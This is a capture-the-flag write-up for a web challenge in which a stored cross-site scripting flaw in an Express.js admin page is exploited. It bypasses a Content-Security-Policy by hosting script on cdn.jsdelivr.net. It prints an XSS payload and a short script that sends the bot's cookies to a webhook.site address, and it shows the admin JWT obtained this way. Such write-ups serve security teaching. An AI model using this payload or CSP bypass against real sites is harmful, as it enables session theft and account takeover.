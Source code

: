 ## Challenge Description
You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?

## Solution
Downloading the provided files and unzipping them, we have the source code of an application built with `Express.js`.

In `routes/index.js`, we see that there are two routes `/api/submit` and `/admin.`

```javascript
┌──(darshan㉿kali)-[~/…/HacktheBoo-ctf-2022/Cursed-secret-party/web_cursed_party/challenge]
└─$ cat routes/index.js      
const express = require('express');
const router = express.Router({ caseSensitive: true });
const AuthMiddleware = require('../middleware/AuthMiddleware');
const bot = require('../bot');

let db;

const response = data => ({ message: data });

router.get('/', (req, res) => {
    return res.render('index.html');
});

router.post('/api/submit', (req, res) => {
    const { halloween_name, email, costume_type, trick_or_treat } = req.body;

    if (halloween_name && email && costume_type && trick_or_treat) {

        return db.party_request_add(halloween_name, email, costume_type, trick_or_treat)
            .then(() => {
                res.send(response('Your request will be reviewed by our team!'));

                bot.visit();
            })
            .catch(() => res.send(response('Something Went Wrong!')));
    }

    return res.status(401).send(response('Please fill out all the required fields!'));
});

router.get('/admin', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }

    return db.get_party_requests()
        .then((data) => {
            res.render('admin.html', { requests: data });
        });
});

router.get('/admin/delete_all', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }
    
    return db.remove_requests()
            .then(() => res.send(response('All records are deleted!')));
})

module.exports = database => {
    db = database;
    return router;
};  
```

And this is what the web application looks like.

![cps-2](https://user-images.githubusercontent.com/87711310/211354800-c5d19cf0-0a2c-4dcc-846e-a7f671d671e1.png)

We can submit the details on the web page and it issues the following HTTP request.

```BurpSuite
POST /api/submit HTTP/1.1
Host: 167.71.138.188:32102
Content-Length: 190
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://167.71.138.188:32102
Referer: http://167.71.138.188:32102/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
 
{
    "halloween_name": "test",
    "email": "test@test.com",
    "costume_type": "monster",
    "trick_or_treat": "tricks"
}

```

Once the request is submitted, we get the following message.
```
Your request will be reviewed by our team! 
```

So it seems like, there's a `bot` running in the background which would visit the `/admin` route and view our submitted data. The `/admin` endpoint pulls all the submitted requests from the database and then renders them in the `admin.html` template.

```javascript
router.get('/admin', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }

    return db.get_party_requests()
        .then((data) => {
            res.render('admin.html', { requests: data });
        });
});
```

However, in `admin.html`, we see a problem.

![cps-3](https://user-images.githubusercontent.com/87711310/211361076-d4ba1cf9-fefb-4902-bdc0-baccb0b03606.png)

When it outputs the `halloween_name` input parameter, it marks it as safe. Which means that it would not escape it to prevent `Cross-Site scripting` attacks.

So, now we have a stored `Cross-Site scripting` vulnerability, and a bot would view it with the permissions of an `admin` user. Let's see what this bot is and how it works.

![cps-4](https://user-images.githubusercontent.com/87711310/211361436-11d06367-eb9d-438a-8613-551d15b06e32.png)

We see that the bot authenticates as an administrator by setting an `admin JWT token` in the cookie. And the payload of this JWT token has the `flag`. Then it visits the endpoint `/admin` to view all the submitted requests and then it deletes them all by visiting the `/admin/delete_all` endpoint.

All we need to do is steal the cookies of the bot user by exploiting the stored `Cross-Site scripting` vulnerability to get the flag. This is fairly easy. Or is it?

Reviewing the `index.js` file I found one catch. The application sets a strict `Content-Security-Policy` header.

```javascript
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

This can be very troublesome. Any browser visiting this web application would look at the `script-src` directive of the CSP header and decide which JavaScript is safe to load and which is not. For example, any inline injected JavaScript code would not get executed because there's no `inline` parameter in the `script-src` directive. It won't load any JavaScript hosted on the attacker's domain either.

The only allowed parameters in the `script-src` directive are self and `https://cdn.jsdelivr.net`. The self parameter means that the JavaScript `files hosted under the same domain as of the application` are safe to load. `The https://cdn.jsdelivr.net` parameter means that any JavaScript files hosted on `https://cdn.jsdelivr.net` are also safe to load.

The problem with this policy is that literally anyone can host `JavaScript` files on `https://cdn.jsdelivr.net`. To host your JavaScript files on `https://cdn.jsdelivr.net`, simply create a public GitHub repository and host your JavaScript files in there. Then you can format the `https://cdn.jsdelivr.net` in a way that it would dynamically pull the JavaScript file from your GitHub repository. The format of the `https://cdn.jsdelivr.net` should be as follows:

```
https://cdn.jsdelivr.net/gh/<github_username>/<repository_name>@master/<file_name>.js
```

In my case, I created a [public GitHub repository](https://github.com/darshannn10/cursed-web-party-payload/blob/main/xss-poc.js) and hosted a file xss-poc.js in there. So for me, this is what the URL looks like:

```
https://cdn.jsdelivr.net/gh/darshannn10/cursed-web-party-payload@master/xss-poc.js
```

This `xss.poc` gets the cookies and submits them to my [webhook.site](https://webhook.site/).
```javascript
var xhttp = new XMLHttpRequest();
xhttp.open('GET', 'https://webhook.site/70c3e906-3fe0-46de-95f9-045b725a9d6b/?' + document.cookie, true);
xhttp.send();
```

Next, I inject the following payload in the `halloween_name` parameter in the `/api/submit` request which first closes the div tag and then add our script from the github.

```
</div><script src=\"https://cdn.jsdelivr.net/gh/darshannn10/cursed-web-party-payload/xss-poc.js\"></script>
```

![cwp](https://user-images.githubusercontent.com/87711310/213444155-6edc459e-4b0b-4394-a001-decf3e92c7fb.png)

After I sent the request, I immediately got the query strings on my webhook client which contained cookie values.

![cwp-3](https://user-images.githubusercontent.com/87711310/213444145-f7c837ff-223f-42df-8940-19b9c51a844d.png)

Decoding the admin JWT, we get the flag.
![cwp-4](https://user-images.githubusercontent.com/87711310/213444151-86ca4abb-61f1-42e5-ad13-0bf3db28ab72.png)

